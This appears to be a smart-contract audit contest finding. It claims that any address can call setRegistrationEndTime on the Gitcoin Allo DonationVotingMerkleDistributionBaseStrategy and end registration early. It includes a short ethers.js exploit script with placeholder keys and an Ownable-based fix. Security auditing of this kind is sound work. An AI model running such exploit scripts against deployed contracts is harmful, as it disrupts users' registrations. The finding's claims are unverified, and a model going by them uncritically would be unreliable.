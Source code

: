 Amateur Amber Mantis

high

# DonationVotingMerkleDistributionBaseStrategy.sol Vulnerability
## Summary

The DonationVotingMerkleDistributionBaseStrategy contract has an access control vulnerability from this function, registrationEndTime.
There is a Denial Of Service Vulnerability where any address can use this contract's setRegistrationEndTime method to change the registrationEndTime to any value. By adjusting the registrationEndTime to the current block timestamp or a previous time, a malicious actor might take advantage of this to prematurely stop the registration period.

## Vulnerability Detail

The contract's regular operation may be seriously disrupted if a hostile actor has complete control over the registrationEndTime. 
By prematurely ending the registration time, it can prohibit legitimate users from enrolling, effectively resulting in a Denial of Service.


## Impact

If the contract is used for crucial operations like token sales, voting, or any other activity requiring a registration period, this might possibly have a big impact. 
Implementing appropriate access control methods is therefore essential to preventing unauthorized modification of vital contract parameters.

## Code Snippet

The following blocks of code are vulnerable:

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/donation-voting-merkle-base/DonationVotingMerkleDistributionBaseStrategy.sol#L77C1-L85C1

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/donation-voting-merkle-base/DonationVotingMerkleDistributionBaseStrategy.sol#L116C1-L122C1

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/donation-voting-merkle-base/DonationVotingMerkleDistributionBaseStrategy.sol#L157C1-L160C1

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/donation-voting-merkle-base/DonationVotingMerkleDistributionBaseStrategy.sol#L275C1-L278C1

The following PoC will attempt to exploit the vulnerability:

const ethers = require('ethers');

async function exploit() {
    // Connect to the provider (e.g., a local Ganache instance)
    const provider = new ethers.providers.JsonRpcProvider('http://localhost:8545');

    // The attacker's wallet
    const attackerWallet = new ethers.Wallet('attacker-private-key', provider);

    // The address of the vulnerable contract
    const contractAddress = 'contract-address';

    // The ABI of the vulnerable contract
    const contractABI = [
        'function setRegistrationEndTime(uint256 _endTime) public',
        'function register() public'
    ];

    // Connect to the contract
    const contract = new ethers.Contract(contractAddress, contractABI, attackerWallet);

    // Set the registration end time to the current block timestamp
    const tx = await contract.setRegistrationEndTime(Math.floor(Date.now() / 1000));
    await tx.wait();

    console.log('Registration period ended prematurely');
}

exploit();


## Tool used

REMIX IDE
Manual Review
VS Code
Foundry

## Recommendation
Implement access control measures to limit who can call the setRegistrationEndTime method in order to counteract this issue. 
The Ownable or AccessControl contracts offered by OpenZeppelin could be used to fix this.

Here is the logic to fix this issue:

pragma solidity 0.8.19;

import "@openzeppelin/contracts/access/Ownable.sol";

contract Registration is Ownable {
    uint256 public registrationEndTime;

    function setRegistrationEndTime(uint256 _endTime) public onlyOwner {
        registrationEndTime = _endTime;
    }

    function register() public {
        require(block.timestamp <= registrationEndTime, "Registration has ended");
        // Registration logic here
    }
}